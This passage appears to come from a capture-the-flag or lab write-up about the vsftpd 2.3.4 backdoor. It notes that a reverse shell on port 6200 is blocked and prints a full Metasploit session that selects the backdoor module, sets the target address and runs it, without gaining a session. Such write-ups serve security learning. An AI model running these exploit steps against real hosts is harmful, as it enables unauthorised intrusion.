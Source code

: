 After googling, it is mentioned that this exploit will work damn sure if the version number is correct

But the problem in spawning reverse shell connection is due to ```firewall/iptables``` which doesn't let the outbound connection on port ```6200```

### VSFTPD 2.3.4 metasploit exploit

There is already an exploit for this vulnerability in metasploit, lets try to use this one

```c
msf6 > search vsftpd2.3.4
[-] No results from search
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options 

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

